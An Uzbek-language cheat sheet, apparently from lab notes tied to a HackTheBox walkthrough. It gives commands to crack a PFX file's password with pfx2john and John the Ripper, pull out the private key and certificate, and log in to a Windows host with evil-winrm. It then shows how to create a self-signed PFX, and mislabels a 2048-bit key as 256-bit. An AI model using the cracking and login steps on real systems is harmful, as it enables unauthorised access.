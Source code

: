 **PFX fayl parolini aniqlash?**  
PFX faylni tekshirish.
 - **# openssl pkcs12 -info -in mycertificate.pfx**   
1. Hash yaratish.
 - **# pfx2john fayl.pfx > fayl.hash**
2. John the Ripper bilan parolni ochish.
 - **# john fayl.hash --wordlist=/usr/share/wordlists/rockyou.txt --force**
3. Kalit va sertifikatni olish.
   A. Shaxsiy kalitni chiqarish:
    - **# openssl pkcs12 -in fayl.pfx -nocerts -out fayl.key-enc**
    - Enter Import Password:(hash orqali aniqlangan parol (Brute force paroli))  Enter PEM pass phrase(Shaxsiy kalit uchun yangi parol kiritish): Verifying - Enter PEM pass phrase(qayta kiritish):
   B. Sertifikatni chiqarish:
    - **# openssl pkcs12 -in fayl.pfx -clcerts -nokeys -out fayl.crt**
   C. Shaxsiy Kalitni shifrdan yechish (Decrypt):
    - **# openssl rsa -in fayl.key-enc -out fayl.key**
    - yuqorida kiritilgan yangi parol kiritiladi.
4. evil-winrm orqali tizimga ulanish. (evil-winrm — bu Windows Remote Management (WinRM) protokoliga asoslangan vosita bo'lib, Windows tizimlariga masofaviy ulanish uchun ishlatiladi.)
 - **# evil-winrm -i <IP> -k fayl.key -c fayl.crt -S -r timelapse**    

Asosiy parametrlar:   
**-i <IP>** – Masofaviy Windows mashinasining IP manzili. (Masalan: 10.10.10.10)  
**-k fayl.key** – Shaxsiy kalit (Private Key) fayli. Bu kalit .pfx fayldan ajratib olingan bo'lishi kerak.  
**-c fayl.crt** – Sertifikat (Certificate) fayli. Bu ham .pfx fayldan chiqarib olingan.  
**-S** – HTTPS orqali ulanish. Bu parametr WinRM xizmatiga xavfsiz (TLS) ulanishni ta'minlaydi.  
**-r timelapse** – Bu parametr ressurs nomini ko'rsatadi. Bu misolda "timelapse" deb nomlangan domen yoki ma'lum bir ulanish konteksti kiritilgan. (Bu CTF topshirig'ida maxsus muhit yoki ulanish nuqtasi bo'lishi mumkin.)    
 - **# evil-winrm -i 10.10.10.10 -k private.key -c certificate.crt -S**  
https://www.hackingarticles.in/timelapse-hackthebox-walkthrough/


**PFX fayl yaratish**
1. OpenSSL o'rnatilganligini tekshirish
 - **# openssl version**
 - Agar o'rnatilmagan bo'lsa (**# sudo apt update && sudo apt install openssl**)
2. Shaxsiy kalit (Private Key) yaratish (256-bitli RSA shaxsiy kalit yaratish)
 - **# openssl genrsa -out private.key 2048**
 -  **private.key** — bu shaxsiy kalit bo'lib, maxfiy saqlanishi kerak.
3.  Sertifikat uchun talab (CSR - Certificate Signing Request) yaratish
 - **# openssl req -new -key private.key -out request.csr**
4. Self-Signed Certificate yaratish.
 - **# openssl x509 -req -days 365 -in request.csr -signkey private.key -out certificate.crt**
5. PFX (PKCS#12) faylini yaratish.
 - **# openssl pkcs12 -export -out mycertificate.pfx -inkey private.key -in certificate.crt**
6. Yaratilgan PFX faylni tekshirish.
 - **# openssl pkcs12 -info -in mycertificate.pfx**   

